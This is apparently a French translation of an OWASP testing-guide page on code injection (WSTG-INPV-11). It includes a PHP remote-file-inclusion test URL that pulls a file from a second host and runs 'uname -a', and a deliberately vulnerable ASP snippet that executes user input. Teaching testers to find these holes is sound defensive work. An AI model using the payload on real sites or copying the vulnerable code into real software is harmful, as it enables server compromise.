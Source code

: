 # Test d'injection de code

|ID          |
|------------|
|WSTG-INPV-11|

## Sommaire

Cette section décrit comment un testeur peut vérifier s'il est possible d'entrer du code en entrée sur une page Web et de le faire exécuter par le serveur Web.

Dans les tests [Code Injection](https://owasp.org/www-community/attacks/Code_Injection), un testeur soumet une entrée qui est traitée par le serveur Web sous forme de code dynamique ou de fichier inclus. Ces tests peuvent cibler divers moteurs de script côté serveur, par exemple ASP ou PHP. Des pratiques appropriées de validation des entrées et de codage sécurisé doivent être utilisées pour se protéger contre ces attaques.

## Objectifs des tests

- Identifiez les points d'injection où vous pouvez injecter du code dans l'application.
- Évaluer la sévérité de l'injection.

## Comment tester

### Test de la boîte noire

#### Test des vulnérabilités d'injection PHP

À l'aide de la chaîne de requête, le testeur peut injecter du code (dans cet exemple, une URL malveillante) à traiter dans le cadre du fichier inclus :

`http://www.exemple.com/uptime.php?pin=http://www.exemple2.com/packx1/cs.jpg?&cmd=uname%20-a`

> L'URL malveillante est acceptée en paramètre de la page PHP, qui utilisera ultérieurement la valeur dans un fichier inclus.

### Test de la boîte grise

#### Test des vulnérabilités d'injection de code ASP

Examinez le code ASP pour les entrées utilisateur utilisées dans les fonctions d'exécution. L'utilisateur peut-il saisir des commandes dans le champ de saisie Données ? Ici, le code ASP enregistrera l'entrée dans un fichier puis l'exécutera :

```asp
<%
If not isEmpty(Request( "Data" ) ) Then
Dim fso, f
'User input Data is written to a file named data.txt
Set fso = CreateObject("Scripting.FileSystemObject")
Set f = fso.OpenTextFile(Server.MapPath( "data.txt" ), 8, True)
f.Write Request("Data") & vbCrLf
f.close
Set f = nothing
Set fso = Nothing

'Data.txt is executed
Server.Execute( "data.txt" )

Else
%>

<form>
<input name="Data" /><input type="submit" name="Enter Data" />

</form>
<%
End If
%>)))
```

### Références

- [Security Focus](http://www.securityfocus.com)
- [Insecure.org](http://www.insecure.org)
- [Wikipédia] (http://www.wikipedia.org)
- [Révision du code pour l'injection de système d'exploitation] (https://wiki.owasp.org/index.php/OS_Injection)
